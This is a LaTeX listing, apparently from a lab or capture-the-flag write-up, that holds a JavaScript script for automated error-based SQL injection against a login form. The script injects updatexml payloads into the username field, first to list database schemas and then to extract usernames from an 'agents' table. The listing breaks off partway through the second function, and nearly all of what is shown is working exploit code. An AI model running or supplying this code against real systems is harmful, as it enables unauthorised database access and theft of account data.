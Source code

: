 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=JavaScript, label={lst:sql-js}]
async function getSchemaNames() {
    console.log('Extracting table names..')
    const tableNames = [];
    let attempt = 0;
    while (true) {
        try {
            const sql = `' or updatexml(0,concat('~',(SELECT table_schema 
                FROM information_schema.tables 
                WHERE table_schema NOT IN 
                ('mysql','information_schema','performance_schema','sys') 
                ORDER BY table_schema LIMIT ${attempt},1),'~'),0)or '# `;
            const body = new URLSearchParams({
                username: sql,
                password: 's'
            }).toString();
            // fetch request from browser
            const resp = await fetch(url, {
                "credentials": "include",
                "headers": {
                    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0",
                    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                    "Accept-Language": "en-US,en;q=0.5",
                    "Content-Type": "application/x-www-form-urlencoded",
                    "Upgrade-Insecure-Requests": "1",
                    "Priority": "u=0, i"
                },
                "referrer": url,
                "body": body,
                "method": "POST",
                "mode": "cors"
            });
            attempt++;
            const pageRaw = await resp?.text();
            if (!pageRaw.includes('XPATH syntax error')) {
                console.log('No more XPATH errors – done.', attempt);
                break;
            }
            const m = pageRaw.match(/~([A-Za-z0-9_]+)~/);
            if (m) {
                tableNames.push(m[1]);
            } else {
                console.log('Error thrown but no valid name found → stop');
                break;
            }


        } catch (err) {
            console.error(err, 'something went wrong')
            break;
        }
    }
    return tableNames;
}

async function getAgentRecords() {
    console.log('Extracting agent names..')
    const records = [];
    let i = 0;

    while (true) {
        const sql = `' OR updatexml(0,concat('~',(SELECT username FROM agents LIMIT ${i},1),'~'),0) OR '#`;

        const body = new URLSearchParams({
            username: sql,
            password: 'x'
        }).toString();

        const resp = await fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded",
            },
            body,
        });


\end{lstlisting}
\end{document}
